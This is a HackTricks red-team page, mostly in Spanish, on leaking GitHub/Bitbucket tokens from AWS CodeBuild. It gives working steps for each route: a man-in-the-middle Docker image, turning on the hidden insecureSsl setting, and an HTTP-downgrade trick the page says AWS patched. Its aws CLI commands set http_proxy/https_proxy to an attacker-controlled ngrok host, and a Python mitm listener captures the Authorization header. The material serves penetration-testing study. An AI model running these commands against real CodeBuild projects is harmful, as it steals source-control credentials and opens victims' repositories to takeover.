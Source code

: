 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Recuperar Tokens Configurados de Github/Bitbucket

Primero, verifica si hay credenciales de origen configuradas que podrías filtrar:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Si encuentras que la autenticación, por ejemplo, a Github está configurada en la cuenta, puedes **exfiltrar** ese **acceso** (**token de GH o token de OAuth**) haciendo que Codebuild **utilice una imagen de docker específica** para ejecutar la construcción del proyecto.

Para este propósito, podrías **crear un nuevo proyecto de Codebuild** o cambiar el **entorno** de uno existente para establecer la **imagen de Docker**.

La imagen de Docker que podrías usar es [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Esta es una imagen de Docker muy básica que establecerá las **variables de entorno `https_proxy`**, **`http_proxy`** y **`SSL_CERT_FILE`**. Esto te permitirá interceptar la mayor parte del tráfico del host indicado en **`https_proxy`** y **`http_proxy`** y confiar en el CERT SSL indicado en **`SSL_CERT_FILE`**.

1. **Crea y sube tu propia imagen de Docker MitM**
* Sigue las instrucciones del repositorio para establecer tu dirección IP de proxy y configurar tu certificado SSL y **construir la imagen de docker**.
* **NO CONFIGURES `http_proxy`** para no interceptar solicitudes al endpoint de metadatos.
* Podrías usar **`ngrok`** como `ngrok tcp 4444` para establecer el proxy en tu host.
* Una vez que tengas la imagen de Docker construida, **cárgala en un repositorio público** (Dockerhub, ECR...)
2. **Configura el entorno**
* Crea un **nuevo proyecto de Codebuild** o **modifica** el entorno de uno existente.
* Configura el proyecto para usar la **imagen de Docker generada previamente**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Configura el proxy MitM en tu host**

* Como se indica en el **repositorio de Github**, podrías usar algo como:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
La **versión de mitmproxy utilizada fue 9.0.1**, se informó que con la versión 10 esto podría no funcionar.
{% endhint %}

4. **Ejecutar la construcción y capturar las credenciales**

*   Puedes ver el token en el encabezado de **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Esto también se podría hacer desde la aws cli con algo como

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projects have a setting called **`insecureSsl`** that is hidden in the web you can only change it from the API.\
Habilitar esto permite a Codebuild conectarse al repositorio **sin verificar el certificado** ofrecido por la plataforma.

* First you need to enumerate the current configuration with something like:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Luego, con la información recopilada, puedes actualizar la configuración del proyecto **`insecureSsl`** a **`True`**. El siguiente es un ejemplo de cómo actualicé un proyecto, nota el **`insecureSsl=True`** al final (esto es lo único que necesitas cambiar de la configuración recopilada).
* Además, agrega también las variables de entorno **http\_proxy** y **https\_proxy** apuntando a tu tcp ngrok como: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Luego, ejecuta el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto indicado por las variables del proxy (http\_proxy y https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, haz clic en **Construir el proyecto**, las **credenciales** serán **enviadas en texto claro** (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

### ~~A través del protocolo HTTP~~

{% hint style="success" %}
**Esta vulnerabilidad fue corregida por AWS en algún momento de la semana del 20 de febrero de 2023 (creo que el viernes). Así que un atacante ya no puede abusar de ella :)**
{% endhint %}

Un atacante con **permisos elevados en un CodeBuild podría filtrar el token de Github/Bitbucket** configurado o si los permisos fueron configurados a través de OAuth, el **token OAuth temporal utilizado para acceder al código**.

* Un atacante podría agregar las variables de entorno **http\_proxy** y **https\_proxy** al proyecto de CodeBuild apuntando a su máquina (por ejemplo `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Luego, cambia la URL del repositorio de github para usar HTTP en lugar de HTTPS, por ejemplo: `http://github.com/carlospolop-forks/TestActions`
* Luego, ejecuta el ejemplo básico de [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) en el puerto señalado por las variables de proxy (http\_proxy y https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Finalmente, haz clic en **Construir el proyecto**, las **credenciales** serán **enviadas en texto claro** (base64) al puerto mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Ahora un atacante podrá usar el token desde su máquina, listar todos los privilegios que tiene y (ab)usar más fácilmente que usando el servicio CodeBuild directamente.
{% endhint %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

